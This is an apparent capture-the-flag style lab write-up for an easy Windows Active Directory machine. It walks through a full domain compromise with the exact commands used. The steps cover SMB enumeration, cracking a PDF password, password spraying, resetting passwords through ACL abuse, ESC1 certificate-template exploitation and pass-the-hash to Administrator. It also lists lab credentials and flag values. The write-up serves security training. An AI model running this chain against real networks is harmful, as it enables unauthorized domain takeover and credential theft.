# Lab Report - Welcome


# Overview 
- **Difficulty**: Easy
- **Platform**: Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/3d1021e5-39bf-41a6-8120-0d9b3e9c5431

## Resolution Summary 
Starting with valid credentials, we were able to access a custom SMB share that had a password-protected file, which we cracked and found the default password set for users initially. After enumerating users and spraying the default password, we gained access to the `a.harris` who could ultimately reset the password of the `svc_ca` account, which could enroll in a specific certificate template. The template was vulnerable to ESC1, leading to administrator access over the DC. 

# Walkthrough 
- To begin with, we performed an Nmap scan on the target, in order to find available services, their versions as well as running default NSE scripts for richer enumeration output: 
```bash
sudo nmap 10.1.194.155 -p- --open -sCV
```
<p align="center">
  
</p>

- Seeing that SMB was available and that we were provided with credentials, we could attempt to enumerate available shares, leading us to discover that we had `READ` access to the `Human Resources` share:
```bash
nxc smb 10.1.194.155 -u e.hills -p 'Il0vemyj0b2025!' --shares
```
<p align="center">
  
</p>
- Note: We sprayed our credentials to different services (WinRM and RDP) as it could have resulted in an immediate foothold, but we did not have any access.

- We authenticated to the `Human Resources` share using our credentials, looking for information to further our access in the network. We found several files available:
```bash
smbclient '//10.1.194.155/Human Resources' -U e.hills -W WELCOME.local
```
<p align="center">
  
</p>

- We downloaded all the files. Upon trying to access them, we noticed that the file `Welcome Start Guide.pdf` was password protected, which may suggest that it holds valuable information:
```bash
get "Welcome Start Guide.pdf"
```
<p align="center">
  
</p>

- Therefore, we extracted the password hash from the document and attempted to crack in order to be able to access the file:
```bash
pdf2john "Welcome Start Guide.pdf" > hash.txt
john --wordlist=~/Downloads/rockyou.txt hash.txt
```
<p align="center">
  
</p>

- Having recovered the password, we could access the PDF file and find that new accounts have the default password `Welcome2025!@`, which should be changed upon login theoretically.
<p align="center">
  
</p>

- Knowing that, we had a password to spray across all users in the AD environment.
- Therefore, we first extracted the list of AD users:
```bash
nxc ldap 10.1.194.155 -u e.hills -p 'Il0vemyj0b2025!' --users-export users.txt
```
<p align="center">
  
</p>

- Having a list of usernames, we could spray the default password we recovered earlier in order to gain another access within the domain. We find that we have a hit with the `a.harris` user: 
```bash
nxc smb 10.1.194.155 -u users.txt -p 'Welcome2025!@' --continue-on-success
```
<p align="center">
  
</p>

- Furthermore, we sprayed these newly discovered credentials on the different available services and found out that they could allow us to gain a WinRM session, meaning that we would have a PowerShell session on the target: 
```bash
nxc winrm 10.1.194.155 -u a.harris -p 'Welcome2025!@'
```
<p align="center">
  
</p>

- Hence, we gained a shell session and collected the first flag:
```bash
evil-winrm -i 10.1.194.155 -u a.harris -p 'Welcome2025!@'
cat C:\Users\a.harris\Desktop\user.txt
```
<p align="center">
  
</p>

- Having secured a new access, we decided to use Bloodhound in order to find if any of our users have overly permissive ACLs that could allow to escalate to Domain Admin or any higher privilege than our current status.
- For that, we began by collecting Bloodhound data: 
```bash
nxc ldap 10.1.194.155 -u a.harris -p 'Welcome2025!@' --bloodhound --collection all --dns-server 10.1.194.155
```
<p align="center">
  
</p>

- After starting our Bloodhound instance, we uploaded the data and started by marking owned users, then we inspected privileges they had.
	- We did it by searching the user in the `Explore` tab under `SEARCH`, then clicking on its node and inspect its `Outbound Object Control`. By recursively performing this operation, we can uncover possible exploitation chains.

- We discovered that our user could be leverage to gain further access and ultimately reset the passwords of the `svc_ca` user.
	- The reason what we choose that user is because he is the only one to have Enrollment rights over a specific Certificate Template
<p align="center">
  
</p>

- First, we will exploit `GenericAll` on the `i.park` user, which allows us to reset its password: 
```bash
bloodyad --host 10.1.194.155 -d welcome.local -u a.harris -p 'Welcome2025!@' set password i.park 'Password123!'
```

- We can confirm that the action was successful with: 
```bash
nxc smb 10.1.194.155 -u i.park -p 'Password123!'
```
<p align="center">
  
</p>

- Next, we can perform the same operation (abusing `ForceChangePassword`) on the `svc_ca` user: 
```bash
bloodyad --host 10.1.194.155 -d welcome.local -u i.park -p 'Password123!' set password svc_ca 'Password123!'
```

- We can confirm that the action was successful with: 
```bash
nxc smb 10.1.194.155 -u svc_ca -p 'Password123!'
```
<p align="center">
  
</p>

- Having comprised this user, we can attempt to find vulnerable Certificate Templates that we can exploit for privilege escalation. We identified a template that is vulnerable to ESC1:
```bash
certipy find -u 'svc_ca@WELCOME.local' -p 'Password123!' -dc-ip '10.1.194.155' -enabled -hide-admins -vulnerable
```
<p align="center">
  
</p>

- When exploiting ESC1, we can request a certificate for any user of our choice. In this case, we will request one for the Administrator user: 
```bash
certipy req -u 'svc_ca@WELCOME.local' -p 'Password123!' -dc-ip '10.1.194.155' -target 'WELCOME-CA.WELCOME.local' -ca 'WELCOME-CA' -template 'Welcome-Template' -upn 'Administrator@WELCOME.local' -sid 'S-1-5-21-141921413-1529318470-1830575104-512'
```
<p align="center">
  
</p>

- Next, we can authenticate as Administrator using the newly generated certificate and retrieve its TGT and NTLM hash:
```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '10.1.194.155'
```
<p align="center">
  
</p>

- Having the Administrator's NTLM hash, we can perform a Pass-The-Hash attack and connect over WinRM and collect the last flag: 
```bash
evil-winrm -i 10.1.194.155 -u Administrator -H '0cf1b799460a39c852068b7c0574677a'
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>

# Trophy 
**User.txt → `46fa545e76f2b279ca97bd2c7f39ba12`**  

**Root.txt → `7fbb500e363e81691681f6880ed38631`**

# Lessons Learned
- When enumerating vulnerable certificate templates, using any domain user's credentials vs using `svc_ca` credentials led to different output (the `WELCOME-CA` template was not highlighted as vulnerable in the first case, but was in the latter).
